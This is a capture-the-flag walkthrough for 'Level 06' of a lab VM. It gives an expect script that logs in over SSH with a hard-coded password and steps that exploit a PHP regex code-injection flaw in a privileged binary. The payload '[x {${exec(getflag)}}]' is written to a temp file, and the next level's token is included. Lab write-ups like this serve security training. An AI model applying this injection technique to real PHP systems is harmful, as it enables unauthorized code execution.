 # Level 06
- In the shell of your choice run the script attached or follow the steps bellow using your VM IP address to get the flag, also root privileges and some dependencies may be needed to install before
	```sh
	$ chmod u+x script.sh
	$ ./script.sh
	$ cat script.sh
	#!/usr/bin/expect -f
	set ip 192.168.1.103
	spawn ssh -o "StrictHostKeyChecking no" level06@$ip -p 4242 "mkdir -p /tmp/level06 ; cd /tmp/level06 ; chmod 777 . ; echo '\[x \{\$\{exec\(getflag\)\}\}\]' > flag ; ~/level06 /tmp/level06/flag"
	expect "sword:"
	send "viuaaale9huek52boumoomioc\r"
	interact
	```
- List content of the home directory
	```sh
	$ ls -l
	```
- Run the file `level06`
	```sh
	$ ./level06
	```
- View the content of the file `level06.php`
	```sh
	$ cat level06.php
	```
- Make a directory in `/tmp` location
	```sh
	$ mkdir -p /tmp/level06
	$ chmod 777 /tmp/level06
	```
- Create a file in that directory with `getflag` exploit for regexp function in php script
	```sh
	$ echo "[x {\${exec(getflag)}}]" > /tmp/level06/flag
	```
- Run the file `level06` with an argument of previously created exploit
	```sh
	$ ./level06 /tmp/level06/flag
	```
- With the token provided `wiok45aaoguiboiki2tuin6ub` switch to the next user level
	```sh
	$ su level07
	Password: wiok45aaoguiboiki2tuin6ub
	``` 
